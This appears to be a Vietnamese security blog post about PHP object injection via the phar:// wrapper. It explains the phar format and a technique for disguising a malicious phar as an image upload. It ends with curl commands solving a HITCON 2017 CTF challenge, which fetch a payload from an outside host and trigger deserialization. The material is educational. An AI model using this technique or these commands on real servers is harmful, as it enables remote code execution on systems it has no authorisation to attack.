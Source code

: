 ```yaml
---
title: "Php Object Injection Without Unserialize"
date: 2018-09-20T09:17:11+07:00
draft: false
author: "Kev"
comments: true
tags: ["php", "serialization"]
---
```


{{<figure src="/images/uploads/phar_background.png">}}

# Stream wrapper

Trong php có khái niệm gọi là stream wrapper, nói về các giao thức trong cách xử lý url, được sử dụng cùng với hàm filesystem  như fopen, copy, file_exists, filesize.

| file:// 		| http:// 		| ftp:// | php:// | zlib:// | data:// | glob:// | phar:// |
| ------------- |:-------------:| ------:|:------:|:-------:|:-------:|:-------:|:-------:|

```
A wrapper is additional code which tells the stream how to handle specific protocols/encodings.
```

# Phar 

Những wrapper này đều có thể lợi dụng để khai thác nhiều loại lỗ hổng. `Phar` wrapper là php archive. Dùng để nén tệp và siêu dữ liệu. Phar không thể sử dụng cho truy cập file từ xa.
Cấu trúc của phar gồm: stub, manifest, file content, signature.

{{<figure src="/images/uploads/phar_phar-structure.png">}}

__Stub__

`__HALT_COMPILER()` là hàm dừng thực thi code trong file php.
```
$ php -r "echo 'Test'; __HALT_COMPILER(); echo 'stub';"
> Test
>
```
`Stub` là một đoạn code php đơn giản. Sử dụng `__HALT_COMPILER` mô tả code php, vì không muốn chương trình biên dịch và thực thi đoạn code php phía sau.

__Manifest__

{{<figure src="/images/uploads/phar_manifest.png">}}

Các byte đầu mô tả thông tin của phar gồm các thông tin của file nén bên trong, version, ... Trong đó có đoạn byte gần cuối là định dạng của [serialize php](https://www.notsosecure.com/remote-code-execution-via-php-unserialize/).
Vậy, bản chất trong phar đã có serialize và chắc một điều là sẽ có 1 giai đoạn nào đó phải sử dụng đến unserialize. Đó là lúc giải nén các file bên trong của tệp phar.

__File contents__

Chứa nội dung được nén bên trong

__Signature__

Phần chữ kí dùng để xác minh tính toàn vẹn của tệp phar, chỉ cần thay đổi 1 yếu tố trong tệp thì chữ kí này giúp để xác minh sự thay đổi đó.

{{<figure src="/images/uploads/phar_xxd-file-phar.png">}}

Chúng ta có thể thấy, phần stub ở trên đầu của file (`<?php __HALT_COMPILER(); ?>`), vì phần này mình có thể tự do tùy chỉnh nên giúp cho việc tạo định dạng file fake rất dễ. Tiếp theo là đoạn `O:7:"example":1:{...` là dữ liệu serialize, lợi dụng điểm này mình có thể override dữ liệu tạo ra payload tấn công object injection. `test.txt`  là nội dung file nén bên trong. Cuối cùng, là đoạn signature để xác minh tính toàn vẹn dữ liệu.


# Kịch bản tấn công

Thông thường nhiều trang web có tính năng upload ảnh và cho tự do chèn địa chỉ ảnh. Cách ngăn chặn những lỗi tấn công không biết trước thường mọi lập trình viên chỉ dùng function `file_exists()` để kiểm tra file. Nhưng đây lại là tác nhân gây ra lỗi object injection dùng phar.

 - _Bước 0_: Khởi tạo payload, cần biết trước trên server có những class nào đã được định nghĩa. Điều này về lý thuyết có vẻ khó, nhưng các ứng dụng lớn thông thường sử dụng những class phổ biến, cho nên có thể khảo sát qua nhiều sourcecode của các trang web lớn.
 - _Bước 1_: vì phar không thể tương tác file từ xa, chúng ta cần upload file payload lên server. Có thể dễ dàng qua mặt các filter bằng cách tạo file phar với stub là header file ảnh.
 - _Bước 2_: Cần tùy chỉnh được url trong các function: include(), fopen(), file_get_contents(), file(), ... Url dạng `phar:///usr/share/payload.phar.jpg`

# Capture The Flag ([orange.tw](https://github.com/orangetw/My-CTF-Web-Challenges#babyh-master-php-2017))

__Baby^H Master PHP 2017 | HITCON 2017 Quals__

[source code index.php]({{/resources/php_obj_inj_without_unserialize/index.php}})

```
# Get a cookie
$ curl http://host/ --cookie-jar cookie

# Download .phar file from http://orange.tw/avatar.gif
$ curl -b cookie 'http://host/?m=upload&url=http://orange.tw/'

# Get flag
$ curl -b cookie "http://host/?m=upload&url=phar:///var/www/data/$MD5_IP/&lucky=%00lambda_1"
```
